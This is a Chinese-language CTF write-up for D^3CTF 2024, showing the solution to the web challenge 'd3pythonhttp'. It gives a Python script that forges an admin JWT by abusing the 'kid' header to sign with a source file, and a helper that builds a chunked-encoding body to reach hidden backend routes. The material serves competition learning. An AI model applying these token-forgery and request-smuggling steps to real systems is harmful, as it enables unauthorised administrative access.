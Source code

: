 0x00 前言
-------

本文是关于"凌武杯" D^3CTF 2024的详细题解，主要针对Web、Pwn、Re、Misc以及IoV等多方向题目的解题过程，包含但不限于pwn-web、cms、qemu、ipv6、iov、等等。如有错误，欢迎指正。

0x01 Web
--------

### d3pythonhttp

> I love using various Python web frameworks to create my projects~

fronted的admin路由有个jwt token验证

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714314472171-a742dd26-8486-4986-9e58-2767a3ca864d.png)

需要伪造token，在当前目录放一个frontend的app.py，执行脚本生成token

```php
import jwt

def get_key():
    try:
        with open("app.py", "r") as f:
            key = f.read()
    except:
        pass
    # print(key)
    return key

user_info = {"username": "w1nd", "isadmin": True}
key = get_key()
token = jwt.encode(user_info, key, algorithm="HS256", headers={"kid": "app.py"})
print("token="+token)
```

token验证后还有一个data条件判断

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714314531195-4bbbf325-6bb1-48b8-89f2-b9c272af79af.png)

[Transfer-Encoding:chunked详解\_transfer-encoding: chunked-CSDN博客](https://blog.csdn.net/qq_32331073/article/details/82148409)

构造下面那个**transfer encoding**块：

```php
def get_chunked(data):
    data = "{}\r\n{}\r\n0\r\n\r\n".format(hex(len(data))[2:], data)
    print(data)

chunked_data="BackdoorPasswordOnlyForAdmin"
get_chunked(chunked_data)
```

这样传值可以访问到backend的路由

